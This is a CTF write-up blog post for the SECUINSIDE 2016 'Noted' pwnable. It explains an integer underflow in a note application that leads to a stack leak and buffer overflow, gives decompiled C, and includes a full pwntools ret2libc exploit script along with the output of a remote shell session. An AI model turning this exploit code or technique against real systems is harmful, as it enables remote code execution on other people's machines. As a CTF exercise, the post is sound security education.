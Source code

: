 ```yaml
---
layout: post
title: SECUINSIDE Quals 2016 - Noted
category: [Exploitation]
tags: [Exploitation, SECUINSIDE]
comments: true
---
```


**Points:** 180
**Solves:** 19
**Category:** Exploitation
**Description:** get shell and execute /flag_x

> [noted]({{site.url}}/assets/secu-noted)
> [libc]({{site.url}}/assets/secu-libc)

{% highlight text %} 
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
gdb-peda$
{% endhighlight %}

This challenge is a binary in a form of note keeping application. On start it changes directory to `/home/noted` and presents the user with a menu.
{% highlight text %}
[Simple NOTED]
Menu
1) Login
2) Register
3) Exit

{% endhighlight %}

Before login, we need to register an account. On registration the application creates a folder with the provided user id. For the password it creates a file in the new directory, password.txt that only contains plaintext ASCII password for this user.

Once we login a different menu is presented.

{% highlight text %}
Menu
1) List note
2) Write note
3) Read note
4) Edit note
5) Delete note
6) Recover note
7) Empty recyclecan
8) Logout

{% endhighlight %}

## Main menu

A short description of all the functions in the application.

1. `List note` displays the notes the user has created
2. `Write note` is how a user creates a note. Each note creates a file in the user's designated directory, each file/note starts with 16 bytes serving as a password for that note followed by a maximum of 1024 bytes of note's content.
3. `Read note` reads a note
4. `Edit note` edits a note
5. `Delete note` deletes a note by moving the note/file in a subdirectory named `recyclecan`
6. `Recover note` moves a deleted note from the recyclecan directory back to the user's main folder
7. `Empty recyclecan` deletes all files/notes in the recyclecan folder
8. `Logout` logs out by setting a local variable in main and presents the login menu

To exploit the application we only need to know the `Write note` and `Edit note` functions.

## Write note

It's going to be easier if I just show the decompiled psudo-code.
What we need to do here is, create a note with arbitrary name and password and a negative content length. The goal is to create a note with it's content only it's password.

{% highlight C %}
int write_note()
{
  int result;
  int v1;
  int n;
  int fd;
  int fda;
  int length;
  char temp_buf[16];
  char content[1024];
  char title[136];  // note name / file name

  memset(title, 0, 0x80);
  memset(content, 0, 0x400);
  memset(temp_buf, 0, 0x10);
  printf("title : ");
  title[read(0, title, 0x80) - 1] = 0;  // null terminates our input
  if ( check_alphanum(title) )
  {
    fd = open(title, 0);
    printf("filedata length : ");
    temp_buf[read(0, temp_buf, 0x10) - 1] = 0;
    length = atoi(temp_buf);  // Here we need to supply negative number
    if ( length > 1023 )      // length is signed        
      length = 0;
    memset(temp_buf, 0, 0x10);
    printf("password : ");
    temp_buf[read(0, temp_buf, 0x10) - 1] = 0;
    if ( length > 0 )       // negative length prevents us from
    {                       // writing to the content buffer :(
      printf("filedata : ");
      v1 = read(0, content, length + 1);
      n = v1 - 1;
      content[v1] = 0;
    }
    if ( fd == -1 )
    {
      fda = open(title, 65, 438); // creates note
      write(fda, temp_buf, 0x10); // writes note's password to the note
      if ( length <= 0 )          // we need negative length here
      {                         
        if ( !length )            // negative length prevents "(EMPTY)"
          write(fda, "(EMPTY)", 7); // to be written to the note
      }
      else
      {
        write(fda, content, n);
      }
      close(fda);      // our note's content is only it's 16 byte password ! 
    }
    else
    {
      puts("error : filename duplicate!\n");
      close(fd);
    }
    result = write(1, "\n", 1);
  }
  else
  {
    result = puts("error : alphanum only!\n");
  }
  return result;
}
{% endhighlight %}

The check if length is negative before writing to the note is preventing us from supplying data to the note, however by creating a note with it's content only it's password we can trigger an integer underflow in `Edit note`.

## Edit note

{% highlight C %}
int edit_note()
{
  int result;
  int v1;
  int file_length;
  int note_fd;
  int n;
  char temp_buf[16];
  char password[16];
  char note_content[1024];
  char title[136];

  memset(title, 0, 0x80);
  memset(note_content, 0, 0x400);
  memset(password, 0, 0x10);
  memset(temp_buf, 0, 0x10);

  printf("title : ");
  title[read(0, title, 0x80) - 1] = 0;

  if ( check_alphanum(title) )
  {
    if ( check_file_stats(title, &v1) == -1 )
    {
      result = puts("error : invalid note\n");
    }
    else
    {
      // asks user for password
      memset(temp_buf, 0, 0x10);
      printf("password : ");
      temp_buf[read(0, temp_buf, 0x10) - 1)] = 0;
      password = temp_buf;
      note_fd = open(title, 0);
      if ( note_fd == -1 )
      {
        result = puts("error : cannot open note\n");
      }
      else
      {
        // read the passwd from the note
        read(note_fd, temp_buf, 0x10);
        // compare the two passwords
        if ( !memcmp(password, local_buf, 0x10) ) // 
        {
          if ( file_length - 16 <= 1024 )
          {
            // since the note's content is only it's password
            // the length of the note will be 16
            // calculating 16 - 16 - 1 will result it n being -1 via int underflow vuln
            n = read(note_fd, note_content, file_length - 16) - 1; // integer underflow here
            note_content[n] = 0;
            close(note_fd);

            // Here write will leak the whole content of the stack !
            printf("original data : ");
            write(1, note_content, n);
            note_fd = open(title, 1);

            // and here we have buffer overflow of the note_content local buffer
            printf("new file data (new file can't exceed original size) : ");
            n = read(0, note_content, n) - 1;
            note_content[n] = 0;
            write(note_fd, &local_buf, 0x10);
            write(note_fd, note_content, n);
            close(note_fd);
          }
          else
          {
            puts("error : note is too big\n");
          }
        }
        else
        {
          puts("error : incorrect password\n");
        }
        result = close(note_fd);
      }
    }
  }
  else
  {
    result = puts("error : alphanum only!\n");
  }
  return result;
}
{% endhighlight %}

If you read the comments, you pretty much know what needs to be done in order to exploit this function.
So let's create a username, login and create a note with length -1. Then go into `Edit note` and edit our note. This will cause the leak of the whole stack, that's where we are going to grab an address within libc calculate the offset to `system()` and `/bin/sh` string and classically overwrite the return address of the `Edit note`. 

## Exploit

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def register(user, pwd):
  r.sendline('2')
  r.recvuntil('userid : ')
  r.sendline(user)
  r.recvuntil('userpw : ')
  r.sendline(pwd)
  r.recvuntil('3) Exit\n')

def login(user, pwd):
  r.sendline('1')
  r.recvuntil('userid : ')
  r.sendline(user)
  r.recvuntil('userpw : ')
  r.sendline(pwd)
  r.recvuntil('Menu\n')

def create_note(title):
  r.sendline('2')
  r.recvuntil('title : ')
  r.sendline(title)
  r.recvuntil('filedata length : ')
  r.sendline('-1')
  r.recvuntil('password : ')
  r.send("\n")
  r.recvuntil('8) Logout')

def edit_note(title):
  r.sendline('4')
  r.recvuntil('title : ')
  r.sendline(title)
  r.recvuntil('password : ')
  r.send("\n")
  r.recvuntil('original data : ')
  leak = r.recv(0x4cc)
  libc_addr = u32(r.recv(4)) - 0x00018637 # local 0x19af3
  leak = r.recv()
  log.info("libc addr: " + hex(libc_addr))
  bin_sh = libc_addr + 0x15909f     # local 0x16084c remote 0x15909f
  system_addr = libc_addr + 0x0003a920  # local 0x40310 remote 0x3a920
  log.info("/bin/sh at: " + hex(bin_sh))
  log.info("system at: " + hex(system_addr))

  payload = "A" * 0x48c
  payload += p32(system_addr)
  payload += p32(bin_sh) * 2
  r.sendline(payload)

def exploit(r):
  r.recvuntil('3) Exit\n')

  user = 'uafio'
  pswd = 'uafio'

  register(user, pswd)
  login(user, pswd)
  create_note('a')
  edit_note('a')

  r.interactive()


if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/vagrant/secuinside/noted/noted'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight text %}
➜  noted python ./noted.py chal.cykor.kr 20003
[*] For remote: ./noted.py HOST PORT
[+] Opening connection to chal.cykor.kr on port 20003: Done
[*] libc addr: 0xf75c4000
[*] /bin/sh at: 0xf771d09f
[*] system at: 0xf75fe920
[*] Switching to interactive mode
new file data (new file can't exceed original size) : $
$ ls /
bin
boot
core
dev
etc
flag_x
home
lib
lib32
lib64
media
mnt
noted
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ /flag_x
df72b22170fed79911e4a69c68a1b9a0
$ id
uid=1000(noted) gid=1000(noted) groups=1000(noted)
$ whoami
noted
$
{% endhighlight %}
